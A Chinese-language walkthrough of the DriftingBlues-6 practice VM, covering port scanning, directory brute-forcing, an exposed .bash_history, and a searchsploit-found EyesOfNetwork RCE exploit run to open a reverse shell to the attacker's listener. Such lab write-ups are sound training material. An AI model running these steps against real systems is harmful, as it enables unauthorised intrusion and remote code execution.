# 前言

靶机：`DriftingBlues-6`，IP地址`192.168.1.65`

攻击：`kali`，IP地址`192.168.1.16`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`



# 信息收集

## 使用nmap扫描端口



- SSH服务，在22端口
- HTTP服务有四个
  - 端口66，由`python2`开启的简易服务
  - 端口80和443，由`apache2`提供的服务
  - 端口8086，扫描出的服务，并未碰到过，`infludb`
- RPCbind服务，端口111
- 未知服务`taskmaster2000`，端口2403
- 数据库服务，3306端口，并且服务类型也扫出

Taskmaster 是一个用于管理 Windows 任务计划的 Go 语言库。它允许用户在本地或远程机器上轻松创建、修改、删除、执行、终止和查看计划任务。与 Windows 自带的任务计划程序 GUI 和 PowerShell cmdlets 相比，Taskmaster 提供了更快的速度和更强大的功能。

## 服务探测

访问66端口，发现是一个HTML页面，并且点击页面功能，都只是在当前页面，也就是这里就是一个HTML页面，无其他东西



访问80端口，发现会直接跳转至443端口，且是一个登录界面



访问8086端口，提示未找到界面，不过这里可能是自定义的`404`界面



## 网站目录爆破

使用`gobuster、ffuf、dirsearch、dirb`等工具

爆破66端口的HTTP服务

```shell
gobuster dir -u http://192.168.1.65:66 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```



爆破80端口，也就是默认的

```shell
dirsearch -u http://192.168.1.65 -e .zip -x 403,404 -t 200
```



爆破8086端口

```shell
gobuster dir -u http://192.168.1.65:8086 -w /usr/share/wordlists/dirb/big.txt -x zip,php,txt,md,html,jpg -d -b 404,403
```



爆破443端口，也就是`https`服务

```shell
dirsearch -u https://192.168.1.65 -x 403,404 -t 200 --exclude-sizes=196B
#这里的--exclude-sizes=196B 是因为在默认界面就是这个字节，并且没加该参数前，大部分都是跳转到这个默认界面，没有参考价值
```



## 网站指纹识别

使用`whatweb`进行测试`80、443、66、8086`端口



# 漏洞寻找

## 访问66端口扫描出的目录

访问并下载`.bash_history`，查看其中的内容



当前目录下，有`flag.txt`，查看，说是`flag 1/1`，结束了?



## 访问443端口目录

首先还是了解这个`eyes of network`

> EyesOfNetwork（EON）是一套开源的、免费的IT监控解决方案。该方案提供业务流程配置工具、在活动队列中发生事件时生成弹出窗口等功能。eonweb是其中的一个Web界面。eonweb 5.3-7版本至5.3-8版本存在SQL注入漏洞，该攻击者可利用该漏洞利用includes/functions.php文件(由login.php调用)中的用户名可用函数


访问`README.md`，发现一个接口版本



使用`searchsploit`查看有无该版本对应的历史漏洞



使用远程代码执行的RCE，使用`locate`定位文件位置，然后复制到当前目录，进行相关操作

这里该文件其实是`python`脚本，可以自己查看，里面也有用法



```shell
python3 exp.py https://192.168.1.65 -ip 192.168.1.16 -port 1234
#这里的-ip是指kali的地址，也就是监听地址，-port是kali监听端口
```



查看文件




好吧，这里其实应该和网站访问的差不多

# 总结

1. 这个其实主要考察的是对于网站目录的扫描等操作
2. 考察对于`http`服务版本探测，以及要会寻找历史版本漏洞，有可用`exp`就可以直接使用


